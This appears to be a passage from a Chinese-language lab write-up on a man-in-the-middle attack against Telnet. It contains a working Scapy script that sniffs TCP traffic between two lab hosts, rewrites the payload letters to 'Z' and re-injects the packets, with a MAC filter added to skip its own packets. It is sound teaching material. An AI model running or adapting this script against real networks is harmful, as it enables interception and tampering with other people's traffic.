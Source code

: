 >             newdata = data  # No change is made in this sample code 在此示例代码中没有进行更改
>             send(newpkt/newdata)
>         else:
>             send(newpkt)
>         ################################################################
>     elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
>         # Create new packet based on the captured one
>         # 根据捕获的数据包创建新数据包
>         # Do not make any change
>         # 不要做任何改变
>         newpkt = IP(bytes(pkt[IP]))
>         del(newpkt.chksum)
>         del(newpkt[TCP].chksum)
>         send(newpkt)
> 
> 
> f = 'tcp'
> pkt = sniff(iface='eth0', filter=f, prn=spoof_pkt)
> ```
> 应该注意的是，上面的代码捕获了所有TCP数据包，包括程序本身生成的数据包。这是不可取的，因为它会影响性能。学生需要更改过滤器，这样它就不会捕获自己的数据包。

根据提示，我们将内容修改，将所有字母替换为 Z 。关于过滤，我们选择`f = 'tcp and (ether src 02:42:0a:09:00:05 or ether src 02:42:0a:09:00:06)'`，直接锁定mac地址

```python
#!/usr/bin/env python3
from scapy.all import *
import re

# Who can it be used? Write first!
IP_A = "10.9.0.5"
IP_B = "10.9.0.6"


print("********** MITM attack on Telnet **********")


def spoof_pkt(pkt):
    if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].payload)
        del(newpkt[TCP].chksum)

        if pkt[TCP].payload:
            data = pkt[TCP].payload.load
            data = data.decode()
            print("Old:"+data)
            newdata = re.sub(r'[a-zA-Z]', r'Z', data)
            print("New:"+newdata)
            send(newpkt/newdata, verbose=False)
        else:
            send(newpkt, verbose=False)
    elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].chksum)
        send(newpkt, verbose=False)


f = 'tcp and (ether src 02:42:0a:09:00:05 or ether src 02:42:0a:09:00:06)'
pkt = sniff(filter=f, prn=spoof_pkt)
```
